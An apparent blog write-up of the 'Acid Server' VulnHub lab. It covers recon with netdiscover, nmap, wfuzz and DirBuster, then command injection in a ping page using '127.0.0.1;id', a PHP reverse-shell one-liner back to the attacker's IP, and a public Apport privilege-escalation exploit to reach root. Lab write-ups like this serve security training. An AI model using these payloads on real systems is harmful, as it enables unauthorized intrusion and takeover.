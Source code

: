 ```yaml
---
layout: post
title: "Acid Server"
date: 2016-09-03 12:56:03 -0500
comments: true
categories: 
---
```


##Tools:

* netdiscover
* Nmap
* Wfuzz
* DirBuster
* Burp


###Vulnerabilities:
[Apport (Ubuntu 14.04/14.10/15.04) - Race Condition Privilege Escalation](https://www.exploit-db.com/exploits/37088/)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`

{% img  /images/blog/vulhub/acid_server/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.170is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.170 -p-`

{% img  /images/blog/vulhub/acid_server/Selection_002.png   [title manually exploit [alt text]] %}

port 33447 is open and running http service.

run wfuzz,

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.170:33447/FUZZ 2>/dev/null`

{% img  /images/blog/vulhub/acid_server/Selection_003.png   [title manually exploit [alt text]] %}

find a path `Challenge`

use DirBuster, check `http://192.168.41.170:33447/Challenge/`

{% img  /images/blog/vulhub/acid_server/Selection_004.png   [title manually exploit [alt text]] %}

Check cake.php

{% img  /images/blog/vulhub/acid_server/Selection_005.png   [title manually exploit [alt text]] %}

check source code,

{% img  /images/blog/vulhub/acid_server/Selection_006.png   [title manually exploit [alt text]] %}

find `/Magic_Box` may be a hidden path

{% img  /images/blog/vulhub/acid_server/Selection_007.png   [title manually exploit [alt text]] %}

use DirBuster again,

{% img  /images/blog/vulhub/acid_server/Selection_008.png   [title manually exploit [alt text]] %}

`command.php` looks interesting.

check that page:

{% img  /images/blog/vulhub/acid_server/Selection_009.png   [title manually exploit [alt text]] %}

type `127.0.0.1` and use Burp

looks like it pings the IP address I typed

`{% img  /images/blog/vulhub/acid_server/Selection_010.png   [title manually exploit [alt text]] %}`


now try `127.0.0.1;id`

`{% img  /images/blog/vulhub/acid_server/Selection_011.png   [title manually exploit [alt text]] %}`

works. So there is a command injection vulnerability.

In burp, instead of `id ` command, using (URL encode):

`php -r '$sock=fsockopen("192.168.41.149",443);exec("/bin/sh -i <&3 >&3 2>&3");'`


get the shell


`{% img  /images/blog/vulhub/acid_server/Selection_012.png   [title manually exploit [alt text]] %}`

`python -c 'import pty; pty.spawn("/bin/bash")'`


after some enumeration 

`cat /etc/*-release`

`{% img  /images/blog/vulhub/acid_server/Selection_013.png   [title manually exploit [alt text]] %}`

Target is running Ubuntu 15.04

`earchsploit ubuntu | grep 15.04`

`{% img  /images/blog/vulhub/acid_server/Selection_014.png   [title manually exploit [alt text]] %}`


Since the target doesn't have wget and gcc, I setup ftp srever and compile the code locally and upload it.

get root


`{% img  /images/blog/vulhub/acid_server/Selection_015.png   [title manually exploit [alt text]] %}`




